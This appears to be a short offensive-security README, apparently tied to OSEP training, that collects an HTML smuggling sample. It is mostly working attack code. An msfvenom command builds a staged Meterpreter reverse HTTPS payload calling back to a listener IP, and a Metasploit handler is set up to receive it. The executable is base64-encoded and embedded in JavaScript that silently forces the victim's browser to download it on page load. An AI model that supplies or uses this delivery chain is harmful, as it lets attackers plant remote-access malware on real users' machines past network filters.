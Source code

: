 
### HTML Smuggling Sample Collection


#### OSEP sample

**Steps:**
1. Create shell code usigng any c2 u like for example Meterpreter
    ```bash
    # Generate staged Meterpreter payload
    sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 -f exe -o /var/www/html/msfstaged.exe
    
    # Start Metasploit multi/handler
    sudo msfconsole -q
    use multi/handler
    set payload windows/x64/meterpreter/reverse_https
    set lhost 192.168.119.120
    set lport 443
    exploit
    
    ``` 
3. Base64 encode the `.exe` file:
    
    ```bash
    base64 -w 0 /var/www/html/msfstaged.exe
    
    ```
    
4. Embed into HTML with JavaScript:
    
    ```html
    <html>
        <body>
            <script>
                function base64ToArrayBuffer(base64) {
                    var binary_string = window.atob(base64);
                    var len = binary_string.length;
                    var bytes = new Uint8Array(len);
                    for (var i = 0; i < len; i++) { bytes[i] = binary_string.charCodeAt(i); }
                    return bytes.buffer;
                }
    
                var file = 'TVqQAAMAAAAEAAAA//8AALgAAAA...'; // base64 of msfstaged.exe
                var data = base64ToArrayBuffer(file);
                var blob = new Blob([data], {type: 'octet/stream'});
                var fileName = 'msfstaged.exe';
    
                var a = document.createElement('a');
                document.body.appendChild(a);
                a.style = 'display: none';
                var url = window.URL.createObjectURL(blob);
                a.href = url;
                a.download = fileName;
                a.click();
                window.URL.revokeObjectURL(url);
            </script>
        </body>
    </html>
    